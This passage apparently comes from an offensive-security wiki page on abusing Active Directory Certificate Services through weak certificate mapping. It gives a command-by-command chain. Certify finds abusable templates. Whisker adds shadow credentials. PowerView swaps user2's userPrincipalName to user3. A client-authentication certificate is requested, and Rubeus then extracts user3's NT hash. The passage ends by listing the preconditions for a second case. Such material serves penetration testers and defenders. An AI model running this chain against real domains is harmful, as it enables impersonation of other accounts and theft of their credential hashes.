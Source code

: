 From Windows systems, the [Certify](https://github.com/GhostPack/Certify) (C#) tool can be used.

```powershell
# Find vulnerable/abusable certificate templates using default low-privileged group
Certify.exe find

# Find vulnerable/abusable certificate templates using all groups the current user context is a part of:
Certify.exe find /currentuser
```

Here, user1 has `GenericWrite` against user2 and want to compromise user3.

First, the user2's credentials are needed. It can be retrieved via a [Shadow Credentials](../kerberos/shadow-credentials.md) attack, for example. Here just the `msDs-KeyCredentialLink` modification part with [Whisker](https://github.com/eladshamir/Whisker):

```powershell
Whisker.exe add /target:"user2" /domain:"domain.local" /dc:"DOMAIN_CONTROLLER" /path:"cert.pfx" /password:"pfx-password"
```

Then, the `userPrincipalName` of user2 is changed to user3 with [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1).

```powershell
Set-DomainObject user2 -Set @{'userPrincipalName'='user3'} -Verbose
```

A certificate permitting client authentication can be requested in a user2 session.

```powershell
Certify.exe request /ca:'domain\ca' /template:"User"
```

The user2's UPN is changed back to something else.

```powershell
Set-DomainObject user2 -Set @{'userPrincipalName'='user2@dmain.local'} -Verbose
```

Now, authenticating with the obtained certificate will provide the user3's NT hash during [UnPac the hash](../kerberos/unpac-the-hash.md). This action can be realised with [Rubeus](https://github.com/GhostPack/Rubeus). The domain must be specified since it is not present in the certificate.

```powershell
Rubeus.exe asktgt /getcredentials /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"domain.local" /dc:"DOMAIN_CONTROLLER" /show
```

:::

#### Case 2

 * `CertificateMappingMethods` is set to `0x4`, meaning no strong mapping is performed and only the UPN will be checked
 * A template that specifiy client authentication is enabled (any template, like the built-in `User` template)
 * `GenericWrite` right against any account A to compromise any account B without a UPN already set (machine accounts or buit-in Administrator account for example)
